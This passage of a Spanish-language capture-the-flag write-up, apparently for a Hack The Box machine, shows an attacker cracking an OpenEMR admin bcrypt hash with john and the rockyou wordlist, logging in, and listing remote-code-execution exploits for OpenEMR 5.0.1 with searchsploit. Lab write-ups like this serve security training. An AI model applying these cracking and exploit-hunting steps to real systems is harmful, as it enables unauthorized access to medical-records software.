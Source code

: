 Con esto, tenemos el usuairo **openemr_admin** y un hash, el cual vamos a tratar de romper con `john`:

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (openemr_admin)
1g 0:00:00:00 DONE (2022-03-12 20:27) 6.250g/s 5400p/s 5400c/s 5400C/s caitlin..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Ya tenemos unas credenciales **openemr_admin : xxxxxx**, por lo que vamos a validarlas en el panel de login de **openEMR**.

![""](/assets/images/htb-cache/cache-web8.png)

Ya ingresamos al panel de administración de **openEMR**. En el campo **About** vemos que nos enfrentamos a un **OpenEMR v5.0.1 (3)**, así que vamos a buscar posibles exploits que nos ayuden a ingresar al sistema.

```bash
❯ searchsploit openemr 5.0.1
----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
OpenEMR 5.0.1 - 'controller' Remote Code Execution                                             | php/webapps/48623.txt
OpenEMR 5.0.1 - Remote Code Execution (1)                                                      | php/webapps/48515.py
OpenEMR 5.0.1 - Remote Code Execution (Authenticated) (2)                                      | php/webapps/49486.rb
OpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated)                    | php/webapps/49998.py
OpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated) (2)                | php/webapps/50122.rb
```